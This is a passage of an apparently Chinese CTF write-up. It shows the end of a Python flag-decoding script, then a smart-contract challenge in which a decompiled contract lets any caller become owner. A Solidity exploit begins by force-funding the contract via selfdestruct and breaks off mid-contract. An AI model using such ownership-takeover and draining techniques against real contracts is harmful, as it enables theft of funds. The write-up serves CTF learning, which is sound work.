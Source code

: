 ```
  for i in range(10):
    key[i] ^= ord('a')
  tmp = [0x545314AA3F8ED6B2, 0x6C6]
  cipher = []
  for i in tmp:
    while i:
      cipher.append(i &amp; 0xff)
      i &gt;&gt;= 8
  for i in range(10):
    a = key[i] ^ cipher[i]
    print(chr(a), end='')


first()
second()
# 1ti5K3yRC4_crypt0
```

[![](https://p2.ssl.qhimg.com/t0118978a58e88ff54a.png)](https://p2.ssl.qhimg.com/t0118978a58e88ff54a.png)



## Pwn

### <a class="reference-link" name="AGame_%E7%BB%99%E8%BD%AC%E8%B4%A6"></a>AGame_给转账

题目比较简单，直接查链。<br>
可以获得题目逻辑

```
def root(): # not payable
  owner = caller

def _fallback(): # not payable, default function
  revert

def unknownb8b8d35a(addr _param1): # not payable
  require owner == _param1
  require eth.balance(this.address) &gt;= 10^15
  call caller with:
     value eth.balance(this.address) wei
       gas 2300 * is_zero(value) wei
  require ext_call.success
  stor1[_param1] = 1
```

看起来比较简单，成功条件是下面的函数调用成功，简单说就是unknown调用成功即可，首先需要有钱 以及是owner，那么就先selfdestruct一个过去强行转账，再加上一个 root()函数和下面函数调用即可。

PS：调大点GAS

```
pragma solidity ^0.4.23;
contract st`{`
    constructor() payable`{`

    `}`   
    function step1()public`{`

        selfdestruct(0xb4D288dE112799141064CF2Af23ab33C074863D4);
    `}`
`}`
contract hack`{`
    address target=0xb4D288dE112799141064CF2Af23ab33C074863D4;
```